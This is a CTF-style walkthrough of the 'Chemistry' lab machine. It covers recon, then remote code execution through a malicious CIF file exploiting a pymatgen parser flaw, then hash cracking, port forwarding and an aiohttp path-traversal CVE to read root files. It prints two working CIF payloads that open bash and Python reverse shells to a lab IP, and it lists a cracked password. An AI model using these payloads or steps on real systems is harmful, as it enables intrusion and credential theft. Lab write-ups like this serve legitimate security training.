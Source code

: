 ## Chemistry
![alt text](image-25.png)  
# Walkthrough
First we do a nmap scan:  
![alt text](image.png)  
Two ports open:  22 and 5000. Some service is hosted on the port 5000.  
![alt text](image-1.png)  
Before trying to navigate the webapp, i launched a fuzz scan to look if any subdirectory can be found at that address.  
![alt text](image-2.png)  
Five findings: login, logout, register, dashboard and upload.  I'll keep that in mind for later.  
  
The webapp seems to host an application to analyze CIF files, some file format used to store and analyze crystallographic informations.  
It's possible to register a new user:  
![alt text](image-3.png)  
On this page it's possible to upload a new CIF file. The first thing that came up in my mind was the possibility of uploading a reverse shell, but I  need two things:  
1) The possibility of creating one in this CIF file --> I have to analyze how a CIF file is formatted;  
2) The possibility to call the file on the remote server once uploaded;  
  
Fortunately, there is a demo file that can be downloaded on the webapp. I did that and saw the CIF format:  
![alt text](image-4.png)  
Not too easy.  
For the second point I tried to reupload this file to see how it was stored on the webapp:  
![alt text](image-5.png)  
And then by clicking on "view":  
![alt text](image-6.png)  
So a new subdirectory is created at each upload and it is possible to reach it with a GET request.  
The answer to the secont point is then solved, but still it's not clear if it is really possible to upload a reverse shell in this CIF format.  
Before diving into (lots) of web browsing, I tried to see if there is a sanitization of the file uploading. If not, I can simply upload a php web shell saving lots of time.  
![alt text](image-7.png)  
That was the server's answer.  
I then tried to do the same thing but with Burp in the middle, to analyze the packet exchange and see if something useful pops up.  
As long as I could see, there was nothing useful. The only thing to notice was that to delete a file there is a call to the API */delete_structure/{ID}*. Also probably the files are only stored for one session.   
  
At this point I had to check if there exist the possibility of hide a reverse shell in this type of format.  
I found this repo:  https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f.  
It's possible to hide code inside the CIF file that will allow a remote code execution.  
I copy-pasted the code and hide inside the code to open a bash reverse shell:  
```python
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -i >& /dev/tcp/10.10.14.221/4444 0>&1");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```  
There is a problem: with this code, also after putting a netcat shell on listening, I couldn't get a reverse shell.  
Struggled a bit, but then I thought that maybe the remote shell isn't a bash shell. Because this vulnerability is possible because exploits a python module, I tried to do the same, but with a python reverse shell: 
```python
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.11.221",4444)); os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```  

Neither this is working. After (too) many tries I simply discovered that there was a formatting problem in the first exploit tried.  
In the end, i got a reverse shell in bash...  
![alt text](image-8.png)  
I proceded to upgrade the shell with the classical:  
```python
script /dev/null -c /bin/bash
^Z
stty raw -echo; fg
*and then inputing "screen"*
```  
There is a user called *rosa* with the user flag, but my user (app) can't read it. I have to do some enumeration.  
![alt text](image-9.png)  
I tried to cat some evergreen files, as /etc/hosts /etc/shadow /etc/passwd, but there is nothing useful. Also, sudo does exist, but i don't know the password yet. 
I found a file called *app.py* with a password (of the Flask app) in cleartext:  
![alt text](image-10.png)  
Tried to see if that is the sudo password, but unfortunately that is not the case.  
I didn't know the use of the Flask secret key, but i read that *"Secret key is only used to protect user session data in flask, afaik. As in - cookies and whether user is logged in or not, it usually does not protect very sensitive information. And its not generally used to protect any persistent information. Meaning you can just generate this key randomly at startup."*, so it shouldn't be very useful unfortunately.  
But there is a sqlite3 database somewhere. Found it in a directory and analyzed the content:  
![alt text](image-11.png)  
There I found the user credentials, with the password hashed:  
![alt text](image-12.png)  
I decrypted the rosa password using john and the wordlist rockyou.txt. The password is **unicorniosrosados**.  
I could login via ssh with the rosa's credentials and was able to get the user flag:  
![alt text](image-13.png)


## Privilege escalation
It could be useful for later, let's keep in mind that other hashes were stored in the user table in the sqlite database (also the admin ones).  
Tried to do some basic PE checks, but user rosa is not in the sudoers.  
I transfered the linpeas script on rosa and launched it. I also started the hash cracking on the other hashes found in the database.  
![alt text](image-14.png)  
![alt text](image-15.png)  
I already encountered that CVE, but that doesn't really lead to anything useful.  
Other than that, linpeas couldn't find other interesting findings.  
John found these other credentials, got to see if one of this belongs to the admin:  
![alt text](image-16.png)  
None of this users has access to the machine (also verifiable by looking at /etc/hosts), but maybe these credentials could be useful later on.  
  
By lookin again at the linpeas report, I noticed a running service on port 8080:  
![alt text](image-17.png)  
I couldn't access it from the external network, so I had to do some pivoting. Socat of course was not installed, so i simply did a port forwarding:  
![alt text](image-18.png)  
The command should be:  
```python
ssh -L -N 5544:localhost:8080 rosa@10.10.11.38
```  
![alt text](image-19.png)  
  
From this new webapp I can only see the running and stopped services on the remote machine:  
![alt text](image-20.png)  
I looked at these services looking for something suspicious, but i could't get anything useful.  
I then tried to nmap this new discovered port:  
![alt text](image-21.png)  
The nmap discoveres the aiohttp version 3.9.1. I took a look online to find known CVE and i found:  https://github.com/wizarddos/CVE-2024-23334  
  
I should be able to read a arbitrary files with this PoC.  
To make it work I need a static directory on the remote application. I did a brief fuzzing:  
![alt text](image-22.png)  
  
And then launched the script:  
![alt text](image-23.png)  
The scripts works as I'm able to read the /etc/hosts. Let's capture the root flag! 
  
![alt text](image-24.png)




